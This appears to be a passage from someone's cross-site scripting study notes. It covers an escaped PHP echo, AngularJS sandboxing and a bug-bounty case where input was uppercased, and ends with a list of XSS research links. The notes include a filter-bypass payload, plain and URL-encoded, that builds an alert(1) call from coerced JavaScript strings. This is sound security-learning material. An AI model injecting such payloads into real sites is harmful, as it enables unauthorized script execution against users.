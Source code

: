 	<p>  
	<?php  
	$q = $_GET['q'];  
	echo htmlspecialchars($q,ENT_QUOTES);?>  
	</p>    
	</body>  
	</html>
#### <font color="red">SandBox</font>:
#### Angular expressions are sandboxed 'to maintain a proper separation of application responsibilities'
... [for more](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)

#### <font color="red">Uppercase Issue</font>
##### While participating in a bug bounty program on Bugcrowd, I stumbled upon a rather interesting scenario where injected code was being converted to uppercase, making every javascript code or function invalid. You might wonder does this situation applies to me? To clarify, here's the scenario I encountered:

##### I could inject javascript but with uppercase and special characters like single quote ', plus/minus sign +/-, brackets [](), equal sign =, exclamation mark ! and semi-colon ; etc. So these were all the things that I could use to craft a payload and bypass this weird XSS uppercase issue.

**Optimized Payload (Edge/Chrome/Firefox):** `A=![]+''B=!![]+''C=[][[]]+''F=[][C[4]+C[5]+A[2]+B[0]+A[4]+B[1]];D=F+''F[D[3]+D[6]+C[1]+A[3]+B[0]+B[1]+C[0]+D[3]+B[0]+D[6]+B[1]](A[1]+A[2]+A[4]+B[1]+B[0]+'(1)')()`

note: Please URL encode the payload before injecting or the (+) used for concatenation would be interpreted as space.

**Encoded Payload:** `A=![]%2B''B=!![]%2B''C=[][[]]%2B''F=[][C[4]%2BC[5]%2BA[2]%2BB[0]%2BA[4]%2BB[1]];D=F%2B''F[D[3]%2BD[6]%2BC[1]%2BA[3]%2BB[0]%2BB[1]%2BC[0]%2BD[3]%2BB[0]%2BD[6]%2BB[1]](A[1]%2BA[2]%2BA[4]%2BB[1]%2BB[0]%2B'(1)')()`




## <font color="GREEN"> TO READ </font>
### <font color="orange">LINKS:</font>
- [ ] https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- [ ] https://infosecwriteups.com/how-i-found-multiple-xss-vulnerabilities-using-unknown-techniques-74f8e705ea0d
- [ ] https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/
- [ ]  https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting 
- [ ]  https://portswigger.net/research/dom-based-angularjs-sandbox-escapes#indirectcall 
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/debugging-client-side-js
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/js-hoisting
- [x] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution
- [ ] https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss
 ** stored xss on pdf viewer:
 - [ ] https://medium.com/@osamaavvan/stored-xss-in-pdf-viewer-9cc5b955de2b 
